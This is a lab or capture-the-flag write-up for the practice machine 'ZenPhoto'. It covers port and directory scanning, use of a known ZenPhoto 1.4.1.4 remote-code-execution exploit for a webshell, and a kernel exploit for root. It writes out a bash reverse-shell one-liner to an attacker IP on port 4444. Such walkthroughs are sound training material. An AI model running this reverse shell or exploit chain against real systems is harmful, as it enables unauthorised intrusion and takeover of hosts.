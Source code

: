 # ZenPhoto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.41 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:19 +08
Nmap scan report for 192.168.175.41
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```

Of all things, Telnet is open.&#x20;

### Web Enum --> ZenPhoto RCE

Port 80 just shows this:

<figure><img src="../../../.gitbook/assets/image (69) (6).png" alt=""><figcaption></figcaption></figure>

A `gobuster` scan reveals the following directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.41/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.41/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 20:22:15 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 75]
/test                 (Status: 301) [Size: 315] [--> http://192.168.175.41/test/]
```

Visiting `/test` reveals a ZenPhoto instance:

<figure><img src="../../../.gitbook/assets/image (64) (5).png" alt=""><figcaption></figcaption></figure>

Viewing the page source reveals the version of ZenPhoto that is running:

<figure><img src="../../../.gitbook/assets/image (62) (2).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits available for this instance:

```
$ searchsploit zenphoto 1.4.1.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Ex | php/webapps/18083.php
----------------------------------------------------------- ---------------------------------
```

This exploits works in getting me a webshell:

<figure><img src="../../../.gitbook/assets/image (57) (7).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell using this one-liner:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.164/4444 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (56) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kernel Exploit --> Root

This machine was running on a really old Linux kernel version:

```
www-data@offsecsrv:/home$ uname -a
Linux offsecsrv 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
```

There are quite a few exploits that might work for this version of Linux running. I used this one:

{% embed url="https://www.exploit-db.com/exploits/15704" %}

Compile it on the machine itself using `gcc exploit.c -o exploit`. Then, run it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (55) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
